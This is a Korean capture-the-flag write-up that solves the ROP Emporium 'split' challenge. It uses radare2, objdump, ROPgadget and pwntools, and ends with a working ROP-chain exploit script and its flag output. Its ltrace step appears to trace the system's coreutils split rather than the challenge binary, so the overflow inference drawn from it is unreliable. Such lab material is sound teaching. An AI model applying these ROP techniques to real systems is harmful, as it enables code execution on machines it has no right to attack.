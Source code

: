 # [split](https://ropemporium.com/challenge/split.html)
<br />

**Discription:**
> The elements that allowed you to complete ret2win are still present, they've just been split apart.
Find them and recombine them using a short ROP chain.
<br />
<br />

# x86_64

**Binary Protections:**
```yaml
[*] '/home/kali/pico/split'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
<br />

해당 문제는 `system("/bin/cat flag.txt")`를 호출하면 풀리는 간단한 문제입니다. 아래 과정을 통해 풀이를 진행하겠습니다.

```yaml
$ ltrace split
strrchr("split", '/')                                                                          = nil
setlocale(LC_ALL, "")                                                                          = "en_US.UTF-8"
bindtextdomain("coreutils", "/usr/share/locale")                                               = "/usr/share/locale"
textdomain("coreutils")                                                                        = "coreutils"
__cxa_atexit(0x5625290abe10, 0, 0x5625290b6008, 0)                                             = 0
getopt_long(1, 0x7ffe0781e6a8, "0123456789C:a:b:del:n:t:ux", 0x5625290b5860, nil)              = -1
strcmp("-", "-")                                                                               = 0
posix_fadvise(0, 0, 0, 2)                                                                      = 0
fstat(0, 0x5625290b6300)                                                                       = 0
getpagesize()                                                                                  = 4096
aligned_alloc(4096, 0x40001, 0x40000, 0x3fc00)                                                 = 0x7f0559721000
read(0, "\n", 262144)                                                                          = 1
...
read(0^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```
우선 `ltrace`를 통해 `read()`가 `262144`만큼 읽고, 스택 버퍼오버플로우가 발생하는 것을 알 수 있습니다.

```yaml
$ r2 split
aWARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
[0x004005b0]> aaa
...
[0x004005b0]> afl
0x00400550    1      6 sym.imp.puts
0x00400560    1      6 sym.imp.system
0x00400570    1      6 sym.imp.printf
0x00400580    1      6 sym.imp.memset
0x00400590    1      6 sym.imp.read
0x004005a0    1      6 sym.imp.setvbuf
0x004005b0    1     42 entry0
0x004005f0    4     37 sym.deregister_tm_clones
0x00400620    4     55 sym.register_tm_clones
0x00400660    3     29 entry.fini0
0x00400690    1      7 entry.init0
0x004006e8    1     90 sym.pwnme
0x00400742    1     17 sym.usefulFunction
0x004007d0    1      2 sym.__libc_csu_fini
0x004007d4    1      9 sym._fini
0x00400760    4    101 sym.__libc_csu_init
0x004005e0    1      2 sym._dl_relocate_static_pie
0x00400697    1     81 main
0x00400528    3     23 sym._init
[0x004005b0]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   ---------- GLOBAL FUNC       __libc_start_main
7   ---------- WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf
[0x004005b0]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
6   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```
`radare2`를 통해 바이너리에서 `system()`을 사용하고 있고, `"/bin/cat flag.txt"`의 주소가 `0x00601060`인 것을 알 수 있습니다. 그리고 `pwnme`, `usefulFunction`, `main` 심볼들이 존재하는 것을 알 수 있습니다.

```yaml
$ objdump -d split
...
0000000000400742 <usefulFunction>:
  400742:       55                      push   %rbp
  400743:       48 89 e5                mov    %rsp,%rbp
  400746:       bf 4a 08 40 00          mov    $0x40084a,%edi
  40074b:       e8 10 fe ff ff          call   400560 <system@plt>
  400750:       90                      nop
  400751:       5d                      pop    %rbp
  400752:       c3                      ret
  400753:       66 2e 0f 1f 84 00 00    cs nopw 0x0(%rax,%rax,1)
  40075a:       00 00 00
  40075d:       0f 1f 00                nopl   (%rax)
...
```
문제에서 제공하는 `usefulFunction()`는 `system()`을 호출해줍니다. 하지만 ROP로 `system("/bin/cat flag.txt")`를 만들어 직접 호출을 해줄 것이므로, 바로 호출이 가능한 `0x40074b`를 사용해줍니다.

```yaml
$ ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```
다음으로 `system()`의 인자인 `/bin/cat flag.txt`를 설정해줘야 하기 때문에 `rdi` 가젯을 확보합니다.

```yaml
$ python3 -q
>>> from pwn import *
>>> p = process("./split")
[+] Starting local process './split': pid 33083
>>> p.send(cyclic(200, n=8))
>>> p.wait()
[*] Process './split' stopped with exit code -11 (SIGSEGV) (pid 33083)
>>> Corefile("./core.33083")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.33083'
    Arch:      amd64-64-little
    RIP:       0x400741
    RSP:       0x7ffe67faeab8
    Exe:       '/home/kali/pico/split' (0x400000)
    Fault:     0x6161616161616166
Corefile('/home/kali/pico/core.33083')
>>> cyclic_find(0x6161616161616166, n=8)
40
```
마지막으로 반환주소를 덮으려면, 버퍼와 반환주소 사이의 거리를 알아야 합니다. 위 과정으로 두 주소 간의 거리는 40 입니다. 알아낸 정보를 가지고 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

e = ELF("./split")
p = e.process()

rdi = 0x00000000004007c3
str = 0x00601060
system = 0x40074b

pay = flat({0x28:rdi}, str, system)

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> $
```
